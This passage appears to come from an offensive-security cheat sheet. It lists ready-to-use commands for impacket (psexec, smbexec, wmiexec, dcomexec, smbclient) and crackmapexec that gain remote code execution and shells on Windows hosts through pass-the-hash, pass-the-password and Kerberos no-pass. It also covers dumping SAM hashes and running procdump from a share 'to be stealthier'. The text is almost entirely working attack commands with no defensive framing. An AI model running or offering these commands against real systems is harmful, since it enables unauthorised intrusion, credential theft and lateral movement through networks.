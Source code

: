 * In order to be stealthier, you can even do the same for procdump
```
sudo ./venv/bin/crackmapexec smb IP -u "xxx" -p "xxx" -X '\\share_ip\SHARE\procdump.exe "TODO"'
```
------------------------
# impacket

#### [github link](https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_24)

### psexec

* remote code execution 
```
python psexec.py domain/user:password@IP <command>
```
* Shell via pass-the-hash:
```
python psexec.py -hashes:<hash> <user_name>@<remote_hostname>
```
* Shell via pass-the-password:
```
python psexec.py Administrator:<password>4@<remote_hostname>
```
* Shell via no-pass
```
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
### smbexec

* remote code execution
```
python smbexec.py domain/user:password@IP <command>
```

### wmiexec

* remote code execution 
```
python wmiexec.py domain/user:password@IP <command>
```
### dcomexec

* remode code execution
```
python dcomexec.py domain/user:password@IP <command>
```

### crackmapexec
* over a subnet and extract SAM file:
```
python crackmapexec -u Administrator -H :011AD41795657A8ED80AB3FF6F078D03 <target_IP> --sam
```
### smbclient
Browse shares via pass-the-hash:
```
python smbclient.py <target_domain>/Administrator@target_IP -hashes 01[...]03:01[...]03
```
* a generic SMB client that will let you list shares and files, rename,
* upload and download files and create and delete directories
